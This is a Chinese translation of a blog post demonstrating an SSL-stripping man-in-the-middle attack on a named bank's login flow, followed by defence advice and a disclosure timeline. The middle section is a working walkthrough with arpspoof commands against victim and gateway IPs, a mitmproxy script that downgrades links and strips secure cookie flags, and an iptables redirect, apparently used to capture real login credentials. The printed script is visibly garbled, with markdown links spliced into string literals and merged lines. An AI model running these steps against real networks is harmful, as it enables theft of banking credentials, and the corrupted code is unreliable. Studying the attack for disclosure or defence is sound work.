






# 全程使用 HTTPS 的重要性

> 原文：<https://medium.com/google-developer-experts/the-importance-of-using-https-all-the-way-9c65c0224e86?source=collection_archive---------3----------------------->

## 与银行、安全和中间人攻击的冒险

几周前，我坐在我女朋友旁边，而她正在浏览互联网。当她去她的银行主页登录她的银行账户时，我注意到少了点什么:网址旁边著名的“锁”图标！我刷新了页面几次，以验证这不是一个错误。


Typical Woof-in-the-Middle attack

## 尽管只有银行的主页通过非安全连接提供服务，而实际的登录页面确实是通过安全连接提供的，但这仍然是一个大问题。

让我告诉你为什么。

## 从 HTTP 迁移到 HTTPS 的问题是

当有人想访问他们银行的网站时，他们会在谷歌上搜索银行名称(如果你想跟进，谷歌“Bank Leumi”)，将书签设置到他们银行的主页，或者他们只需在浏览器中键入 URL(在这种情况下，是 leumi.co.il)。

不管你如何到达那里，你都会被带到[http://www.leumi.co.il](http://www.leumi.co.il)——注意开头的 HTTP，而不是 HTTPS。



Home page. Cyan button at top leads to the account sign in page

您可能会想:如果主页是通过不安全的连接提供的，那又会怎么样呢？只要[实际登录](https://hb2.bankleumi.co.il/uniquesig4e0824291ffbe1b42058d6558ed87217/uniquesig0/InternalSite/CustomUpdate/eBank_ULI_Login.asp?resource_id=C66B095BD60649D18ECB79F04C657517&login_type=2&site_name=leumi&secure=1&URLHASH=16a07e4b-5651-4882-992e-9bb784cbc027&orig_url=https%3a%2f%2fhb2.bankleumi.co.il%2fH%2fLogin.html)页面使用 HTTPS，我的数据就受到保护，对吗？

嗯，技术上来说*是的*，除非某个邪恶的人确保它不是。

有一种著名的中间人(MITM)攻击，称为 SSL 剥离，主要是说在某些情况下，攻击者可以通过 HTTP 而不是 HTTPS 提供登录页面，从而破坏对您数据的保护。

## 中间人是如何窃取你的数据的

在本帖中，我将向您展示一个概念证明(PoC ),说明邪恶的黑客可能会如何利用这个漏洞。

对于这个概念验证，我们假设攻击者和受影响的用户使用同一个 WiFi / LAN 网络。简而言之，这就是攻击场景:

1.  攻击者设计了中间人(MITM)攻击。
2.  用户进入银行的主页，得到一个被攻击者修改过的版本，其中所有的 HTTPS 链接都被替换为相应的 HTTP 链接。
3.  用户单击登录链接，然后通过 HTTP 获得登录页面。攻击者充当代理，通过 HTTPS 将所有请求委派给实际的银行服务器。攻击者使用一些 JavaScript 修改登录页面，以记录并劫持密码(尽管我应该说在这一步，我们需要击败一个很好的保护机制——但稍后会详细介绍)。
4.  然后，用户输入他们的登录凭证并点击提交。在提交给银行服务器之前，详细信息通过 HTTP，通过攻击者的机器发送。

## 但是用户呢:他们看到了什么？

除了轻微的延迟，用户不会注意到任何事情。

基本上，用户将看到他习惯的相同的登录页面，除了唯一的区别是在登录页面内的页面地址旁边没有“安全锁”图标。(所以一个基本的安全提醒:当输入你的凭证时，**总是**确保“安全锁”在那里。)

不幸的是，在这个场景中(从 HTTP 转移到 HTTPS)，即使锁**的存在也不能保证安全性**:攻击者所要做的就是*模仿安全页面。*这需要多一点准备。

因为用于身份验证页面(hb2.bankleumi.co.il)的域与银行主页(leumi.co.il)不同，所以攻击者可以注册一个外观相似的域(如 hb2bankleumi.co.il 或 hb2.bankluemi.co.il ),然后为其获取一个有效的 SSL 证书，从而在假冒的登录页面上获得一个安全锁标志。

如果攻击者采取了这个额外的步骤，用户将看不到*任何不同的*，除非他们碰巧注意到 SLL 证书上的签名不是它应该有的样子。

# 利用漏洞

利用此漏洞需要一些仅在 Linux 上可用的工具。幸运的是，我身边总是放着一些覆盆子酱(它们[只是](/@urish/building-simon-with-angular2-iot-part-2-ee3a270747b5#.fn25gapxa)非常有用)。为了使用 Raspberry Pi 进行这种攻击，您需要使用以太网电缆将 Raspberry Pi 连接到网络，或者使用外部 WiFi 加密狗(由于某种原因，Raspberry Pi 3 中的内部 WiFi 芯片无法与其中一种工具配合使用)。

当然，你不需要有一个树莓派。如果你有最新版本的 Debian 或 Ubuntu Linux，操作说明也是类似的(同样，只要确保它和受害者电脑在同一个网络上)。

***好玩的事实:*** *我也是用一台* [*9 美元的单片机*](https://getchip.com/pages/chip) *跑了这次攻击。它需要更多的软件修补，但它不需要任何额外的硬件。我发现你花 9 美元就能买到能做这种事情的东西，这绝对令人惊讶……活着是多么美好/可怕的时光:-)*

为了实施攻击，我们将主要使用两种工具:

1.  `arpspoof` —我们将使用[这个工具](http://su2.info/doc/arpspoof.php)通过我们的机器转移受害者的 PC 流量，使用一种叫做 [ARP 欺骗](https://en.wikipedia.org/wiki/ARP_spoofing)的技术
2.  `mitmproxy` — [该工具](https://mitmproxy.org/)将监听来自受害者的 HTTP 请求，并根据我们配置的规则修改它们(这就是 SSL 剥离为我们做的事情)

## 步骤 0 —安装工具

首先，我们需要安装`arpspoof`。它是`dsniff`包的一部分，所以我们只需安装它:

```
sudo apt-get install dsniff
```

接下来，我们需要安装`mitmproxy`，这需要 Python 3.5。

不幸的是，在撰写本文时，Raspberry Pi 还没有针对 Python 3.5 的预建包，因此您必须遵循这里的[说明](http://raspberrypi.stackexchange.com/a/56632)并从源代码编译它。整个过程大约需要 15-20 分钟，取决于您的 SD 卡速度和网络连接。

要在 Raspberry Pi 上安装`mitmproxy`，我们需要设置一个隔离的 Python 环境并安装一些依赖项。为了设置环境，我们将使用`[virtualenv](https://virtualenv.pypa.io/en/stable/)`，我们可以通过运行以下命令来安装它:

```
sudo pip3 install virtualenv
```

然后我们安装一些依赖项:

```
sudo apt-get install libffi-dev libssl-dev libxml2-dev 
sudo apt-get install libxslt1-dev libjpeg62-turbo-dev zlib1g-dev g++
```

现在，我们终于准备好安装`mitmproxy`:

```
cd
virtualenv -p /usr/local/bin/python3.5 proxy
cd proxy
. bin/activate
pip install mitmproxy
```

我用的是 0.18.2 版本的`mitmproxy`,但是我想新版本也可以。

## 步骤 1-转移受害者的交通

现在我们都设置好了，我们可以进入攻击的第一步，我们将受害者的流量转移到我们的机器上。

但是，在我们实际转移受害者的流量之前，我们需要确保我们实际上正确处理了转移的流量，并将其转发到网关(路由器)。否则，受害者将无法建立任何网络连接，从而有效地断开他们与互联网的连接。

为此，我们需要做的就是设置 IP 转发:

```
sudo sysctl -w net.ipv4.ip_forward=1
```

现在，让交通改道！

您需要打开两个不同的终端窗口(或者您可以使用`[screen](https://www.gnu.org/software/screen/)`实用程序)。在第一台终端上运行以下命令:

```
sudo arpspoof -i eth0 -t **GATEWAY_****IP** **VICTIM_IP**
```

第二个终端上的这个:

```
sudo arpspoof -i eth0 -t **VICTIM_IP GATEWAY_****IP**
```

其中`**VICTIM_IP**`是受害者的 IP 地址，`**GATEWAY_IP**`是网关的 IP 地址。如果您使用 WiFi，您可能还需要将`eth0`更改为不同的名称，例如`wlan0`或`wlan1`。

您可以通过键入`ifconfig -a`找到网络接口的名称以及网关机器的 IP 地址。

上面的命令基本上用 ARP 数据包轰炸受害者的机器和网关，告诉它们另一端的目的 IP 实际上属于攻击者的机器。流量分流就是这样实现的。

现在随着流量的转移，我们可以开始截取数据。

## 步骤 2-设置 SSL 剥离(这样您就可以获得受害者的密码)

我们现在已经为实际执行攻击做好了一切准备。我们所需要做的就是为`mitmproxy`提供一个脚本来进行 SSL 剥离:

```
def request(flow):
  host = flow.request.headers['Host']
  if host == 'hb2.bankleumi.co.il':
    flow.request.scheme = 'https'
    flow.request.port = 443def response(flow):
  newcontent=flow.response.content.replace(b'[https://](https://%27)', b'[http://')](http://%27%29.replace%28SIGNATURE,)
  flow.response.content = newcontent
  if "set-cookie" in flow.response.headers:
    flow.response.headers.replace(b';secure', b'')
```

`response()`函数中的前两行拦截所有 HTTP 响应，并用`http`替换所有出现的`https`，有效地确保返回给客户端的页面中的所有链接都没有安全性。

接下来的两行`response()`负责从服务器发送的任何 cookies 中删除`secure`标志。这个标志意味着浏览器将只通过 HTTPS 发送回这些 cookie，但是由于我们位于中间，我们可以剥离它并确保浏览器仍然将所有会话 cookie 发送到服务器，甚至通过 HTTP。

最后，`request()`函数拦截对实际登录页面的所有请求(现在通过我们，因为它们是 HTTP)，并通过 HTTPS 将它们代理到实际的银行服务器。这意味着目标服务器不必支持 HTTP:`request()`函数负责在传入的 HTTP 请求到达目标服务器之前将它们“升级”到 HTTPS。

您可以将该脚本保存为`sslstrip.py`。现在，我们只需用脚本运行`mitmproxy`:

```
cd ~/proxy
. bin/activate
mitmproxy -T --host --anticache --insecure -s sslstrip.py
```

## 步骤 3 —通过 mitmproxy 重定向流量并执行攻击

`mitmproxy`监听 TCP 端口 8080，但是我们想要拦截的 HTTP 连接是在端口 80 接收的，所以我们需要设置我们的机器将流量从端口 80 重定向到端口 8080。为此，我们将使用 [iptables](https://en.wikipedia.org/wiki/Iptables) ，一个控制 Linux 内核防火墙的工具。

在启动并运行`mitmproxy`之后，您可以运行以下命令来重定向所有 HTTP 流量，使其通过正确的端口:

```
sudo iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 80 -j REDIRECT --to-port 8080
```

(注:以上是单行代码)

记得把`eth0`改成相关的网络接口名。

运行上面的命令后，您应该开始在`mitmproxy`中看到来自受害者的所有 HTTP 流量:



mitmproxy in action — I went to example.com, then to linux.org

现在，如果受害者进入银行网站，然后点击进入登录页面的按钮，填写详细信息并登录到他的银行帐户，您将实际上能够拦截通信并获得用户名和密码。



Look ma, no HTTPS!



The “POST” request is where the sign in form is submitted



You thought I would give you my username and password? They are behind the red squares. The red square on top contains some of the cookie — which can also be considered sensitive information.

在现实世界的场景中，攻击者可能会使脚本更加健壮，而不是在受害者浏览器的每个站点中盲目地将所有出现的`https://`替换为`http://`，这可能会干扰一些站点，它会专门针对“有趣”的页面，甚至可能只是该页面上的相关链接。

# 现在怎么办？保护您的信息和网站

既然您已经看到了该漏洞是如何被利用的，作为用户，您可以遵循以下一些规则来保护自己:

1.  使用公共/未知网络时，避免登录敏感网站。这包括机场、酒店/旅馆/机场、公共咖啡厅、任何不受密码保护的 WiFi 网络等。甚至你工作中的网络也可能不安全！
2.  当你登录你的银行账户或其他敏感网站时，在你输入密码之前，停下来一会儿——仔细检查你是否看到锁标志，以及域名是否有意义。请记住，攻击者可以购买一个具有 SSL 证书的相似外观的域，并使用它进行攻击——安全通信并不自动意味着您使用正确的域名进行对话。
    *注:下个月开始，Chrome 其实会* [*辅助那个*](https://security.googleblog.com/2016/09/moving-towards-more-secure-web.html) *！*

作为网站所有者，保护用户免受这些攻击的最好办法是确保你的所有页面都使用 SSL，包括营销页面。

很多用户会通过搜索引擎或你在社交网络上分享的链接来访问你的网站。通过将 HTTPS 用于营销页面，您可以确保他们始终使用安全的连接，从而避免出现可被上述 SSL 剥离攻击利用的弱点。

您还应该启用 [HTTP 严格传输安全(HTST)](https://en.wikipedia.org/wiki/HTTP_Strict_Transport_Security) ，它告诉浏览器总是使用 HTTPS 进行连接，即使引用链接使用 HTTP(例如，如果用户键入【http://leumi.co.il】[，](http://leumi.co.il,)，浏览器会自动将链接更改为 [**https** ://leumi.co.il，](https://leumi.co.il,)，甚至在发出初始请求之前)。

遵循上述步骤将使所描述的攻击变得无用，因为所有的通信都将安全地完成，并且没有 SSL 剥离攻击的挂钩点。

## 加密密码:令人惊讶的第二道防线

我第一次运行 PoC 攻击时，它非常有效，但是在第二次尝试时(经过一些修补)，它实际上不起作用:密码以某种方式进行了编码。这让我很好奇。

我做了一些调查，发现密码实际上是在你输入的时候加密的。如果您使用 Chrome 开发工具将字段的类型从`password`更改为`text`并键入一些字符，您就可以看到它:



I only type “a”, but get different characters

我可以通过在登录页面中注入 5 行 JavaScript 代码来绕过这一防御(这确实需要大约一个小时的研究和 Chrome Dev 工具的大量帮助)，但是为了保护银行用户的隐私，我将具体细节留在本文范围之外。

这实际上是一种抵御某种攻击的聪明方法，但不幸的是，它无法抵御这里描述的有针对性的 MITM 攻击。因此，在投入大量精力实现专有安全机制之前，我强烈建议网站所有者首先利用我上面描述的广泛可用的安全策略。

# 行动号召和最后的话

我希望这篇文章能让用户更加谨慎，并仔细检查安全锁以及他们将自己宝贵的凭据交给了什么网站。

此外，如果你是不使用 HTTPS 作为主页的银行或其他机构的用户，请与他们分享这篇文章——确保你的帐户安全是他们的责任，这是他们为确保你的凭据安全所能做的最起码的事情。

最后，我想对我的朋友 [Inbar Raz](https://twitter.com/inbarraz) 和 Matan Scharf 表示感谢，他们在披露过程中提供了帮助，并为这篇文章的组织和展示提供了出色的建议和投入。

## 披露时间表和流程

11 月 7 日，我第一次通过电话联系了该银行的 CSO，并向他解释了这个问题，以及为什么我认为这会使该银行的用户面临风险。

11 月 9 日，我向银行的反滥用团队发送了一封电子邮件，详细说明了这个问题，并概述了一个可能的攻击场景。

11 月 24 日，我联系了虐待团队，确认他们收到了我之前的电子邮件。他们证实收到了我的信，并说这个问题正在调查中。

最后，在 11 月 30 日，我再次检查，发现这个问题还没有得到解决，所以我给他们发了另一封电子邮件，提供帮助解决这个问题。我还更新了它们，因为我打算发表一篇博文来解释这个问题，并为用户提供补救技巧。

在撰写本文时，我还没有收到银行方面关于他们预计何时解决这个问题的消息。